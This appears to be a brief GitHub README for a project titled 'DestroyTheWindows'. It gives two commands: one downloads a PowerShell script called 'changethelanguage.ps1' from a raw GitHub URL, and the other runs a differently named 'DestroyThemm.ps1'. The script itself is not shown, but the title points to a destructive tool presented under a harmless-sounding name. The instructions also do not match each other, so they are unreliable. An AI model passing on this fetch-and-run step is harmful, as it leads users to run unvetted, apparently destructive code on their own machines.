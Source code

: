 # DestroyTheWindows
DestroyTheWindows


# Download the script
```
 Invoke-WebRequest -Uri "https://raw.githubusercontent.com/GiuCoder/ChangeTheLanguage/main/changethelanguage.ps1" -OutFile "changethelanguage.ps1"
```


# Run the script
```
./DestroyThemm.ps1
```
